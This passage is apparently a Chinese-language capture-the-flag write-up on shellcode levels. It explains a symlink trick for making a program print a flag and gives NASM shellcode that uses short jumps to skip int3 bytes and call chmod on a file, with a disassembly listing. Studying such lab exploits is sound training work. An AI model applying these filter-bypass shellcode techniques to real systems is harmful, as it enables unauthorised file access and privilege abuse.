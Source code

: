 ```python
print(output)
p.close()
os.system('cat f')

```

既然系统调用会用当前执行目录补全相对路径的话，之前的方法也是可以用的。我们可以手动在当前目录下，创建一个指向`openflag`文件的符号链接，然后把这个符号链接文件名传递给`execve`系统调用。然后`baby`程序会运行`openflag`程序，`openflag`程序会把`flag文件`输出。



## level9

修改10的倍数位置的二进制位cc, 我们可以在临近10位置的时候增加一个短跳转。跳过10的奇数倍。

```c
for (int i = 0; i < shellcode_size; i++)
{
    if ((i / 10) % 2 == 1)
    {
        ((unsigned char *) shellcode_mem)[i] = '\xcc';
    }
}
```

```asm
BITS 64

section .text
global _start

_start:
    push 0x66  
    mov rdi, rsp
    jmp _1
    nop
    nop
    nop
    times 10 nop  # 跳过第11-20个字节

_1:
    push 4
    pop rsi
    push 90
    pop rax
    syscall

      Address      |                      Bytes                    |          Instructions
------------------------------------------------------------------------------------------
0x000000001b4a5000 | 6a 66                                         | push 0x66
0x000000001b4a5002 | 48 89 e7                                      | mov rdi, rsp
0x000000001b4a5005 | eb 0d                                         | jmp 0x1b4a5014
0x000000001b4a5007 | 90                                            | nop 
0x000000001b4a5008 | 90                                            | nop 
0x000000001b4a5009 | 90                                            | nop 
0x000000001b4a500a | cc                                            | int3 
0x000000001b4a500b | cc                                            | int3 
0x000000001b4a500c | cc                                            | int3 
0x000000001b4a500d | cc                                            | int3 
0x000000001b4a500e | cc                                            | int3 
0x000000001b4a500f | cc                                            | int3 
0x000000001b4a5010 | cc                                            | int3 
0x000000001b4a5011 | cc                                            | int3 
0x000000001b4a5012 | cc                                            | int3 
0x000000001b4a5013 | cc                                            | int3 
0x000000001b4a5014 | 6a 04                                         | push 4
```